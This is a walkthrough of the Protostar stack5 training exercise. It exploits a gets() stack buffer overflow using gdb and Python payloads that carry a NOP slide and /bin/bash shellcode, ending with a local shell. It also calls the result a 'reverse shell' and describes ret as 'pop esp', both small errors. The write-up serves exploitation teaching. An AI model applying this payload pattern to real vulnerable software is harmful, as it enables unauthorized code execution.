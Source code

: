 ```yaml
---
title: "Protostar stack5 walkthrough"
date: 2020-05-22
tags: [buffer overflow, protostar, stack5, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack5](https://exploit-exercises.lains.space/protostar/stack5/)

#### About
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

At this point in time, it might be easier to use someone elses shellcode
If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

#### Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### Procedure:

We can use `gets()` to write something onto stack. To solve this level, we need to get a reverse shell using shellcode. So, once main function is done executing, we need the ESP to point to shellcode, which we can inject using `gets()`

###### Vulnerability:

`gets()` is vulnerable function.


###### Disassembly:

Lets disassemble the main function
```
gdb ./stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble main
```

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack5/disassemble.png)

Now, lets set breakpoint at the 'ret' of main and run the program with a long input (AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ)

```
break *0x080483da
r
AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
x/8wx $esp
```

![breakpoint]({{site.url}}{{site.baseurl}}/images/protostar/stack5/breakpoint.png)

At the breakpoint, we can see that the value in $esp is 0x56565656 and this will be executed in the next step and leads to segmentation fault. we can see this by continuing with `c`. 
We can use `x/s $esp` to get the esp values as a string

![segfault]({{site.url}}{{site.baseurl}}/images/protostar/stack5/segfault.png)

Instead of getting segmentation fault, we need the program to execute a shell code. Lets start by putting the shell code into $esp after 'ret' is executed

At the 'ret' instruction, $eip = 0x80483da (0x909090c3) and $esp = 0xbffff7cc (0x56565656). Once 'ret' is executed, the return address pointed by esp will be popped (ret is nothing but pop esp) and eip will have the value of return pointer (0x56565656). Now, $eip = 0x56565656(??) and $esp = 0xbffff7d0 (0x57575757). In the next step, eip will try to execute (??) and fails.

Before injecting any shellcode, lets try if we can trigger an input at this step. We need eip to point to interrupt (INT3) opcode (xCC). So we want $eip to have an address containing xCC.
After ret, $eip points to return pointer on stack. We can change this to a controllable address like 0xbffff7d0 where we write xCC.

So, 0xbffff7cc should have 0xbffff7d0 and 0xbffff7d0 should have xCC.
Lets create a payload that matches this with python

```
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU'
eip = struct.pack("I", 0xbffff7d0)
payload = "\xCC"*4
print padding+eip+payload
```

We can run the program in gdb using `r < /home/user/stack5/pay` where pay is the payload with output of above python program.

![interrup]({{site.url}}{{site.baseurl}}/images/protostar/stack5/interrupt.png)

As expected, address 0xbffff7cc has 0xbffff7d0. So, when we continue, eip will point to 0xbffff7d0 and run whatever is inside it. 0xbffff7d0 has 0xcccccccc which is our interrupt opcode. Now, if we continue `c`, we can see the program giving a SIGTRAP. 

![sigtrap]({{site.url}}{{site.baseurl}}/images/protostar/stack5/sigtrap.png)

This confirms that if shell code is written at 0xbffff7d0, it would execute. Lets use [this](http://shell-storm.org/shellcode/files/shellcode-606.php) shellcode from [shell-storm.org](http://shell-storm.org/)

Lets also add a NOP slide before adding shellcode. NOP slide is a chain of NOP instruction (opcode x90) which does no action. But this is useful since we are hardcoding the addresses in our script and it will not always match with the required address to execute eip. Havin a bunch of NOP instructions serve as a buffer to allow the difference between the actual eip address needed and the one we give in the script. 

```
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU'
eip = struct.pack("I", 0xbffff7d0+30)
nopslide = "\x90"*100
interrupt = "\xCC"
payload = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
print padding+eip+nopslide+interrupt+payload
```

Now at 'ret', we can see that $esp has 0xbffff7ee, which is in the middle of NOP slide.

![nopsled]({{site.url}}{{site.baseurl}}/images/protostar/stack5/nopsled.png)

Now, if we continue, we should get an interrupt followed by shell

![shell]({{site.url}}{{site.baseurl}}/images/protostar/stack5/shell.png)

/bin/bash has executed, but since the execution of stack5 is done, the pipe is closed and there is no way to give input to bash.

We can get past this by making `cat` run along with our python program (exploit.py). using `cat` without any input just prints whatever is entered in the prompt. if we can run cat along with stack5, we can have the stdin always available. First lets see if we can successfully run stack5 piping it to the output of exploit.py

`python exploit.py | /opt/protostar/bin/stack5`

![python]({{site.url}}{{site.baseurl}}/images/protostar/stack5/python.png)

Looks like we can run it. Lets remove the interrupt from our script and run stack5 with both python and cat as input.

`(python exploit.py; cat) | /opt/protostar/bin/stack5`

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack5/done.png)

Now we get a shell.

